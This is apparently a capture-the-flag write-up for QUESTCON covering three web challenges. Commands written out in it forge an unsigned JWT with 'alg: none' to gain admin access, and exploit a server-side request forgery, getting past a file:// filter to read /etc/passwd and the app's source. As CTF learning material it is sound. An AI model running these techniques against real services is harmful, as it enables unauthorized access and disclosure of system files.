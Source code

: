 ![image](https://github.com/user-attachments/assets/0fad64fc-90bc-4c19-8f3a-b70bc645031a)-----------------

### CTF: QUESTCONCTF

------------------

![image](https://github.com/user-attachments/assets/201d3478-4cce-4604-a4d3-be0e79a1d0f1)

------------------

### Challenges:

- Web
  - Direction
  - Theadmin
  - Temp

------------------

### WEB:

### Direction:

![image](https://github.com/user-attachments/assets/4f776a65-e2c5-4f76-b044-18c3d0f4c467)

- I loaded the site and got this

![image](https://github.com/user-attachments/assets/c01101fe-8612-40fd-93de-7997ec52e9ff)

- I decided to check for the common file `robots.txt` that we all try to find and got a disallowed page.

![image](https://github.com/user-attachments/assets/29d877b6-a391-4a21-9497-0a8a4615cba0)

- I proceeded with curl and noticed an header containing a portion of the flag and automatically redirects to the next page.At first,I couldn't use `GET` for it.I used header `OPTIONS` to find allowed http headers.

![image](https://github.com/user-attachments/assets/9ae29c4e-5969-40cc-a455-77f463277e94)

- Flag portion 1 is shown below and the next flag stop will be the path in the `Location` header.

![image](https://github.com/user-attachments/assets/05c38c13-3f18-4440-bf62-8606f38c8a79)

- I wrote a <a href="https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/QUESTcon24/scripts/direction.py">script</a> to automate it.

![image](https://github.com/user-attachments/assets/60983022-c410-4d09-9247-07294c1cdd14)

- Flag-: ```QUESTCON{mi3d1r3ct10n_15_4n_4r}```


-------------------

### Challenge 2: The Admin

![image](https://github.com/user-attachments/assets/2c893638-2ee5-4086-ba07-333a1ee1d40a)

- The index page contains the documentation for the api.Route `auth` takes in a username and returns a jwt token created with the username and route `access` takes in the cookie and displays the username.

![image](https://github.com/user-attachments/assets/0ca83b87-c8b8-4164-82f7-35f0b1b0180b)

![image](https://github.com/user-attachments/assets/d985d91e-3733-4d32-9587-6719bc838327)

- I was able to get the flag by setting the `alg` key to `none`.

```bash
curl https://questcon-theadmin.chals.io/access -H "Authorization: Bearer $(echo '{"alg":"none","typ":"JWT"}' | base64).eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5ODYwNTM2fQ"
{"flag":"QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}"}%
```

- Flag-:```QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}```

---------------------

### Challenge 3: TEMP

![image](https://github.com/user-attachments/assets/748470c8-b92f-4dc0-8d28-bb37d6de8963)

- I checked the source code aand noticed a `POST` request made to route `/api` which loads a url.

      fetch('/api', {
                      method: 'POST',
                      headers: {
                          'Content-Type': 'application/json',
                      },
                      body: JSON.stringify({ url: urlInput }),
                  })
- I made an http request to google and it worked.

      ❯ curl https://questcon-temp.chals.io/api -H "Content-Type: application/json" -d '{"url": "https://www.google.com"}'
      {"data":"<!doctype html><html itemscope=\"\" itemtype=\"http://schema.org/WebPage\" lang=\"en\"><head><meta content=\"Search the world's information, including webpages, images, videos and more. Google has many special features to help you find exactly what you're looking for.\" name=\"description\"><meta content=\"noodp, \" name=\"robots\"><meta content=\"text/html; charset=UTF-8\"

- I tried to read `/etc/passwd` with `file://` schema which did not work because it was filtered.Then, I tred `/etc/./passwd` which worked.

![image](https://github.com/user-attachments/assets/c76e76d3-230a-4c03-b7d0-40a5e0b293dd)

- I got the flag by reading the source code stored in `/app/app.py`.I got this idea because most ctf challenges are stored in `/app/app.py`.

![image](https://github.com/user-attachments/assets/a9abae67-3da3-4799-bd5d-7c495faa1b3c)

- Flag-: ```'QUESTCON{r3c0ver_d3l3t3d_fil3}```

-------------------

### THANKS FOR READING

-------------------

### REFERENCES:

- [Direction's script](https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/QUESTcon24/scripts/direction.py)
















